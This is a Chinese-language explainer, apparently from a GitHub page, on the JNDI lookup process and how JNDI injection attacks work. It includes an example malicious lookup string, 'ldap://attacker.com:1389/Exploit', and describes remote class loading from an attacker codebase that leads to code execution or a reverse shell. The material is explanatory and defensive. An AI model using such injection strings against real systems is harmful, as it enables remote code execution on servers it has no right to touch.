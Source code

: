 ### JNDI 的解析流程和原理

**JNDI 的解析流程**

JNDI 的解析过程可以概括为以下几个步骤：

1. **初始上下文（Initial Context）**：应用程序首先通过 `javax.naming.InitialContext` 类创建一个初始上下文。这个上下文是 JNDI 查找的起点，它包含了连接到特定命名和目录服务所需的环境信息，例如服务提供商的 URL、认证信息等
2. **查找（Lookup）**：应用程序使用 `context.lookup(name)` 方法来查找一个对象。`name` 是一个字符串，表示要查找的对象的名称或路径
3. **服务提供商（Service Provider）**：JNDI 会根据初始上下文中配置的服务提供商信息，将查找请求委托给相应的服务提供商。例如，如果 URL 是 `ldap://...`，则会使用 LDAP 服务提供商；如果 URL 是 `rmi://...`，则会使用 RMI 服务提供商
4. **命名和目录服务**：服务提供商与实际的命名和目录服务进行通信，并根据请求的名称查找对应的对象
5. **返回结果**：命名和目录服务返回查找到的对象。这个对象可以是任何 Java 对象，例如一个字符串、一个数据库连接，甚至是一个远程方法调用的引用

**JNDI 注入的原理**

JNDI 注入是一种利用 JNDI 漏洞的攻击方式。它的核心思想是，**攻击者控制了 `context.lookup(name)` 方法中的 `name` 参数，使其指向一个恶意的远程服务，从而在受害者服务器上执行任意代码**

具体原理如下：

1. **注入恶意 URL**：攻击者通过某种方式（如 HTTP 请求参数、日志等）将一个恶意的 JNDI URL 注入到应用程序中。这个 URL 通常指向攻击者控制的远程服务器，例如 `ldap://attacker.com:1389/Exploit`
2. **触发查找**：应用程序在处理用户输入时，无意中将这个恶意 URL 作为 `context.lookup()` 方法的参数进行调用
3. **JNDI 请求恶意服务**：JNDI 框架会向攻击者控制的 LDAP 服务器发起请求，查找 `Exploit` 这个对象
4. **返回恶意引用**：攻击者的 LDAP 服务器接收到请求后，会返回一个特殊的响应，这个响应中包含了**一个远程代码库（Codebase）的 URL**，例如 `http://attacker.com/`，以及一个类名 `Exploit`
5. **加载远程类**：当 JNDI 收到这个响应后，它会根据返回的远程代码库 URL，从攻击者的 Web 服务器下载 `Exploit.class` 文件
6. **执行恶意代码**：JNDI 框架会自动实例化并执行 `Exploit` 类中的代码。`Exploit` 类通常包含一个静态代码块或构造函数，用于执行恶意命令，例如反弹 shell、创建文件等